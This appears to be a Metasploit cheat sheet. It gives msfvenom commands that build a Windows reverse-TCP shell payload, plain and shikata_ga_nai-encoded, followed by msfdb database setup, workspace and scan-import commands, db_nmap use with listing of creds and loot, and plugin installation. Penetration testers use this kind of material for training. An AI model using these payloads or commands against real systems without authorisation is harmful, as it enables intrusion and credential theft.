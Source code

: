 - Generate payload without Encoding
```shell-session
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

- Generate payload with Encoding
```shell-session
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

# Setting Up the Database
-----------------
- PostgreSQL Status
```bash
sudo service postgresql status
```

- Start PostgreSQL 
```bash
sudo systemctl start postgresql
```

- Initiate the database
```bash
sudo msfdb init
```

- Connect to the Initiated Database
```bash
sudo msfdb run
```

- Database options
```bash
help database
```

# Using the Database
-----------------------
- Create a workspace
```bash
workspace -a Target_1
```

- Import Scan Results
```bash
db_import Target.xml
```

# Using Nmap inside MSFconsole
--------------------------
```bash
db_nmap -sV -sS $IP
hosts
services
creds
loot
```

# Install new Plugins
-----------------------
- Download MSF Plugins
```bash
git clone https://github.com/darkoperator/Metasploit-Plugins
ls Metasploit-Plugins

# Content
aggregator.rb      ips_filter.rb  pcap_log.rb          sqlmap.rb
alias.rb           komand.rb      pentest.rb           thread.rb
auto_add_route.rb  lab.rb         request.rb           token_adduser.rb
beholder.rb        libnotify.rb   rssfeed.rb           token_hunter.rb
db_credcollect.rb  msfd.rb        sample.rb            twitt.rb
db_tracker.rb      msgrpc.rb      session_notifier.rb  wiki.rb
event_tester.rb    nessus.rb      session_tagger.rb    wmap.rb
ffautoregen.rb     nexpose.rb     socket_logger.rb
growl.rb           openvas.rb     sounds.rb
```

- Copy Plugin to MSF
```bash
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
```

- MSF Load Plugin
```bash
msfconsole -q
load pentest
```